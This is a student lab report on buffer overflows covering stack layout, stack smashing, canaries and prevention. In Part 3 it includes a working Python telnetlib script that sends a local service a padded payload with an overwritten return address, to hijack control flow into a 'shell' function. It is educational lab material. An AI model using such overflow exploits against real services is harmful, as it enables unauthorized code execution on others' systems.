




# Activity 10 - Buffer Overflow

## Part 1: Stack Layout

The stack layout is identified as follows:



## Part 2: Stack Smashing

The result of stack smashing exercise is as follows:



## Part 3: Stack Smashing an Internet Service

The process:

1. Start the service at port 60000 with netcat



2. Run the smash code in a separate terminal. The code emulates telnet and will send a string with the shell's address as input to the service.

```python
#!/usr/bin/python3
import telnetlib

# open connection
tn=telnetlib.Telnet("127.0.0.1",60000)

#offset=40
#target_addr="5647740e61b5"

offset=int(input("Offset (40?):"))
target_addr=input("Target (shell) address (eg. 5647740e61b5): ")
buff=offset*(b'x')
addr=bytearray.fromhex(target_addr)
addr.reverse()
buff+=addr
print(buff)

# sending buffer
tn.write(buff)
# emulate telnet/terminal
tn.interact()
```

As a result, the program returns to the function `shell` which contains the output shown ('You Are Hacked!')



## Part 4: Canary

> From exercise 2 and 3, can you explode the buffer-overflow attack even when the canary-style protection is activated? Please explain your analysis.

It is possible if the hacker knows the details of the canary (e.g. where it is, what its value is). Then, when creating a stack smashing input, the hacker can make it such that the canary's value is kept the same.

## Part 5: Questions

> Do you think that exploiting buffer-overflow attacks is trivial? Please justify your answer. (i.e. Is it trivial to write a program to exploit buffer-overflow attacks in a server ?)

No, it is in no way a trivial task, as knowledge of the stack structure and code of the victim system is necessary to carry out a successful attack. This information is usually not trivial to get, so buffer-overflow attacks are not an easy thing to do.

> As a programmer, is it possible to avoid buffer overflow in your program (write secure code that is not vulnerable to such attack)? Explain your strategy.

It is possible to try and prevent buffer overflow attacks as much as possible by many ways, such as:

- Examining the source code for vulnerable areas such as pointer usage or memory allocation.
- Checking the size of input and whether or not the input is accessing prohibited addresses.
- Using programming languages with built-in memory management to help reduce the risk of buffer overflow attacks on our system.
